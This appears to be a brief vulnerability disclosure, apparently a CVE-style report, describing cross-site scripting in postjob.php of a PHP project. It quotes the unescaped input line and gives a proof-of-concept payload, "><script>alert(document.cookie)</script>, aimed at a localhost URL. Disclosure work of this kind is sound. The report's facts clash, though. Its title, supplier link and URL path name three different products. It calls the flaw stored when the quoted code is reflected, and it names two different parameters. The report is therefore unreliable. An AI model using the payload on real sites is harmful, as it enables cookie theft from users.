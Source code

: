 # Responsive Blog Site #

## supplier ##

https://code-projects.org/project-monitoring-system-in-php-with-source-code/

## Vulnerability file ##

postjob.php

## describe ##

The `postjob.php` file contains an unrestricted cross-site scripting (XSS) vulnerability, leading to a stored XSS attack. Malicious attackers can exploit this vulnerability to obtain sensitive information from the client side.

### Code analysis ###

Line 321 in postjob.php

```php
<input name="txtapplyto" type="text" id="txtapplyto" value="<?php if(isset($_POST['txtapplyto']))echo $_POST['txtapplyto']; ?>" />
```

## POC ##
For id parameter, the test payload is `"><script>alert(document.cookie)</script>`
Visit this URL to trigger the cross-site scripting vulnerability.

```
http://127.0.0.1:8083/Job/onlineJobSearchEngine/postjob.php
```

### Rusult ###
![image](https://github.com/asd1238525/cve/blob/main/e46c37d2-a1c4-456c-b8a4-78dd41d2286f.png)
For parameter "txtapplyto":
![image](https://github.com/asd1238525/cve/blob/main/f96aefd3-3583-49d2-9aaa-2fdff0f81243.png)
